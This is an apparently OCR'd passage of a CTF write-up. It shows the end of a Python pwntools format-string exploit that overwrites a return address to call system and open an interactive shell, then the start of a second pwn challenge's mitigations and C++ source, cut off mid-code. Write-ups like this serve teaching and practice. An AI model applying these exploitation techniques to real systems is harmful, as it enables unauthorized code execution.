 ```
    tmp_len += (16 - len(str(0x10000-written_so_far))) - 2
    tmp = f'%{str(0x10000-written_so_far-tmp_len)}x'.encode()
    fmt_str += tmp
    fmt_str += (16 - len(tmp)) * b'A'

    tmp = f'%{str((SYSTEM>>32)&0xffff)}x%46$hn'.encode()
    fmt_str += tmp
    tmp_len = (16 - len(tmp))
    fmt_str += tmp_len * b'A'

    # the return address
    # 36
    fmt_str += p64(RIP)
    fmt_str += p64(RIP+2)
    fmt_str += p64(RIP+4)
    fmt_str += p64(RIP+6)
    
    # the first arg for ROP
    fmt_str += p64(RIP+8)
    fmt_str += p64(RIP+8+2)
    fmt_str += p64(RIP+8+4)
    fmt_str += p64(RIP+8+6)

    fmt_str += p64(RIP+8*2)
    fmt_str += p64(RIP+8*2+2)
    fmt_str += p64(RIP+8*2+4)
    fmt_str += p64(RIP+8+2+6)

    print(p.recvuntil(b'post?').decode())
    p.sendline(fmt_str)

    p.interactive()
```

It's ugly, but it works.

## redact (pwn)
Security mitigations:
```
Arch:     amd64-64-little
RELRO:    Full RELRO
Stack:    No canary found
NX:       NX enabled
PIE:      PIE enabled
```

Source:
```
#include <algorithm>
#include <iostream>
#include <string>

int main() {
  std::cout << "Enter some text: ";
  std::string text;
  if (!std::getline(std::cin, text)) {
    std::cout << "Failed to read text\n";
    return 1;
  }
  std::cout << "Enter a placeholder: ";
  std::string placeholder;
  if (!std::getline(std::cin, placeholder)) {
    std::cout << "Failed to read placeholder\n";
    return 1;
```